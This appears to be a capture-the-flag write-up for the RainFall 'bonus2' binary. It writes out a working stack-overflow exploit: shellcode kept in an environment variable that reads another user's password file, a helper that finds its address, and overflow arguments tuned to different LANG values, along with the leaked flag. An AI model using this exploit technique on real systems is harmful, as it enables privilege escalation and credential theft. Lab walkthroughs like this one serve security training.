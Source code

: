 # Write up

While dissassembling the program, we find that the greetuser function print depends of the LANG env variable :
```
bonus2@RainFall:~$ export LANG="nl"
bonus2@RainFall:~$ ./bonus2 1 5000
Goedemiddag! 1
(Global set to 2)
bonus2@RainFall:~$ export LANG="fi"
bonus2@RainFall:~$ ./bonus2 1 5000
Hyvää päivää 1
(Global set to 1)
bonus2@RainFall:~$ export LANG="fr"
bonus2@RainFall:~$ ./bonus2 1 5000
Hello 1
(Global unchanged (0), fr is not included in the checks)
```
One more time we have two buffers where we can overflow the first one on the second one.
We need to pad 40 bytes on the first buffer.
Depending of the language value, we get our segfault with different argv[2] size.
Overall we get a segfault with a full string of 72 chars, which fits with our pseudo code (88 bytes stack size - 16 bytes offset)
The fi language one lets us less "visible" bytes since it contains non-ASCII chars (unicode chars can took more than 1 byte)
Let's build our payload :
```
export LIDLCODE=$(python -c 'print "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/user/bonus3/.pass"')
echo 'void main(){printf("%p\n", getenv("LIDLCODE"));}' > /tmp/lidl12.c; gcc /tmp/lidl12.c -o /tmp/lidl12; chmod 777 /tmp/lidl12; /tmp/lidl12 // 0xbfffff67 here
// With LANG="fi"
$ ./bonus2 `python -c 'print "a" * 40'` `python -c 'print "b" * 18 + "\x67\xff\xff\xbf"'`
Hyvää päivää aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbg���
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
// With LANG="nl"
$ ./bonus2 `python -c 'print "a" * 40'` `python -c 'print "b" * 23 + "\x67\xff\xff\xbf"'`
Goedemiddag! aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbg���
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
Here we go.
Note that it doesn't work with the base Hello, it would need a payload like this :
```
$ ./bonus2 `python -c 'print "a" * 40'` `python -c 'print "b" * 30 + "\x67\xff\xff\xbf"'`
```
But the second string is clamped to 32 bytes. (Here we need 34, considering that since we overwrite the saved eip 4 bytes after the frame stack top, we need to actually write 80 bytes)
